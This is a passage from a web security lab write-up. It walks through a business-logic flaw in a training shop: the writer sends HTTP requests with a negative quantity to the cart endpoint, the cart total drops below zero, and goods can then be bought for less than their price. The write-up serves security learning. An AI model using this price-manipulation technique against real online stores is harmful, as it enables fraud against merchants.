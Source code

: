 After that we can do a checkout from the`/cart` endpoint. The checkout request is like the following.

```
POST /cart/checkout HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

csrf=PZfsfXP2aNIzWZ6ZwGiGRcSLo0QstctC
```

If we supply a negative value in the quantity parameter we see they minus the quantity in our product. Like we send the following request

```
POST /cart HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

productId=1&redir=PRODUCT&quantity=5
```

And after that, we send this request

```
POST /cart HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

productId=1&redir=PRODUCT&quantity=-6
```

We will see our cart now has a product that has quantity `-1` with a negative price. So we can exploit this functionality by giving negative input that makes our cart price negative and then adding a new product with a positive price. Doing that causes the application to minus that negative value from the positive value. The final price will be much less than the actual price and we can buy the product with that price. Chaining that theory we can solve this lab using the following steps.

```
POST /cart HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

productId=1&redir=PRODUCT&quantity=1
```

Now send the other product to our cart like this

```
POST /cart HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

productId=2&redir=PRODUCT&quantity=5
```
